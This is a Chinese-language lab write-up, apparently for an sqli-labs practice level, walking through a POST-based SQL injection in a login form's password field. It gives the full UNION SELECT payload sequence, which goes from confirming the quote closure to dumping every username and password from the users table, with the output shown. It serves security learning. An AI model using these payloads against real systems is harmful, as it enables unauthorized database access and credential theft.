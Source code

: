 # 测试
到这里需要输入两个参数了

我们可以使用之前跑到的账号密码试一下  
Dumb Dumb  
提交之后 有回显

hackbar打开load一下

# 确认闭合类型
在post数据部分发现  
passwd=Dumb&submit=Submit&uname=Dumb

我们测试一下passwd会不会是sql注入点

输入passwd=Dumb'&submit=Submit&uname=Dumb  
报错：near ''Dumb'' LIMIT 0,1' at line 1

输入passwd=Dumb'--+&submit=Submit&uname=Dumb  
正常，那么可以判断passwd可以是注入点，而且是单引号闭合


# 判断回显位置

post输入:passwd=Dumb' order by 3--+&submit=Submit&uname=Dumb  
报错

输入passwd=Dumb' order by 2--+&submit=Submit&uname=Dumb  
正常，说明只查询了两个参数

接下来跟第一关步骤一样

构造错误密码，然后返回我们想要数据  
post输入passwd=1' union select 1,2--+&submit=Submit&uname=Dumb

回显：  
Your Login name:1  
Your Password:2

# 查询数据库名
passwd=1' union select database(),2--+&submit=Submit&uname=Dumb

# 查询表名
passwd=1' union select group_concat(table_name),2 from information_schema.tables where table_schema=database()--+&submit=Submit&uname=Dumb

# 查询列名
passwd=1' union select group_concat(column_name),2 from information_schema.columns where table_name='users' and table_schema=database()--+&submit=Submit&uname=Dumb

# 查询值
passwd=1' union select group_concat(username,':',password),2 from users--+&submit=Submit&uname=Dumb

回显：  
Your Login name:Dumb:Dumb,Angelina:I-kill-you,Dummy:p@ssword,secure:crappy,stupid:stupidity,superman:genious,batman:mob!le,admin:admin,admin1:admin1,admin2:admin2,admin3:admin3,dhakkan:dumbo,admin4:admin4

Your Password:2